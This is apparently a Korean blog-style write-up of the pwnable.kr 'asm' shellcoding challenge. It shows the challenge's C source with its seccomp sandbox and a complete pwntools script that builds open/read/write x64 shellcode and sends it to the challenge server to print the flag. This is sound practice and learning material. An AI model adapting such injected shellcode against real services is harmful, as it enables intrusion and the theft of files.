

## 문제



```console
asm@prowl:~$ ls -l
total 28
-rwxr-xr-x 1 root root 13704 Nov 29  2016 asm
-rw-r--r-- 1 root root  1793 Nov 29  2016 asm.c
-rw-r--r-- 1 root root   211 Nov 19  2016 readme
-rw-r--r-- 1 root root    67 Nov 19  2016 this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong
asm@prowl:~$ cat readme
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
asm@prowl:~$ cat this*
this is fake flag file for letting you know the name of flag file.
asm@prowl:~$
```

`nc 0 9026` 명령어를 통해 접속하고 긴 파일명을 가진 플래그를 읽는 문제.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
        scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
        if (ctx == NULL) {
                printf("seccomp error\n");
                exit(0);
        }

        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
        seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

        if (seccomp_load(ctx) < 0){
                seccomp_release(ctx);
                printf("seccomp error\n");
                exit(0);
        }
        seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

        setvbuf(stdout, 0, _IONBF, 0);
        setvbuf(stdin, 0, _IOLBF, 0);

        printf("Welcome to shellcoding practice challenge.\n");
        printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
        printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
        printf("If this does not challenge you. you should play 'asg' challenge :)\n");

        char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
        memset(sh, 0x90, 0x1000);
        memcpy(sh, stub, strlen(stub));

        int offset = sizeof(stub);
        printf("give me your x64 shellcode: ");
        read(0, sh+offset, 1000);

        alarm(10);
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}

```

open, read, write 시스템콜만을 이용해 x64 shellcode를 작성하면 된다.

## 풀이

```c
int fd;
char buf[100];

fd = open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong", 0, 0);
read(fd, buf, 100);
write(1, buf, 100);
```

c로 작성한다 치면

```python
from pwn import *

context.update(arch='amd64', os='linux')

c = shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
c += shellcraft.open('rsp', 0, 0)
c += shellcraft.read('rax', 'rsp', 100)
c += shellcraft.write(1, 'rsp', 100)
c += shellcraft.exit()
```

그걸 shellcraft가 나 대신 작성해준다면

```python
s = remote('pwnable.kr', 9026)
s.recvuntil('shellcode: ')
s.sendline(asm(c))
print(s.recv().decode())
```

그걸 서버로 보낸다면

## 후기

풀이를 먼저 봤다. 다 shellcraft로 풀길래 나도 그렇게 했다.

문자열을 스택에 올리는 방법을 기억에 잘 남기기로 했다.

함수 인자 레지스터 순서와 시스템콜 호출 방법이 다시 기억났다.

오늘은 pwntools 문서를 정독하기로 했다.
